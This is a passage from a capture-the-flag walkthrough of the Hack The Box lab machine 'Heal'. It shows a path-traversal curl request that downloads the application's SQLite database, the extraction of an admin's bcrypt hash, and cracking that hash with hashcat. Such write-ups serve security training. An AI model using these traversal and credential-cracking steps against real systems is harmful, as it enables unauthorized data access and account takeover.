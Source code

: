 ```ruby
  <<: *default
  database: storage/test.sqlite3

production:
  <<: *default
  database: storage/development.sqlite3
```

We have database files at `storage` directory.

```bash
heap@dragon:~/stuff/HTB/heal$ curl 'http://api.heal.htb/download?filename=../../storage/development.sqlite3' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ' \
  -H 'Connection: keep-alive' \
  -H 'Origin: http://heal.htb' \
  -H 'Referer: http://heal.htb/' --insecure -s -o devlopment.sqlite3

heap@dragon:~/stuff/HTB/heal$ file devlopment.sqlite3
devlopment.sqlite3: SQLite 3.x database, last written using SQLite version 3045002, writer version 2, read version 2, file counter 2, database pages 8, cookie 0x4, schema 4, UTF-8, version-valid-for 2
```

Alright, we have 1 admin user to target, prolly that's gonna get us user shell.

### Hash crack

```sql
sqlite> select email, password_digest, username, is_admin from users;
ralph@heal.htb|$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG|ralph|1
```

I'll use hashcat to bruteforce the plaintext for this hash.\
You can visit ([https://hashcat.net/wiki/doku.php?id=example\_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)) for exact hash id btw.

```
heap@dragon:~/stuff/HTB/heal$ hashcat --user -m 28400 -a 0 ralph.hash --show
ralph:$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG:<redacted>
```

## www-data shell

We can login as admin (ralph) on `take-survey.heal.htb` , we can see the limesurvey version here on footer of the webpage.

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

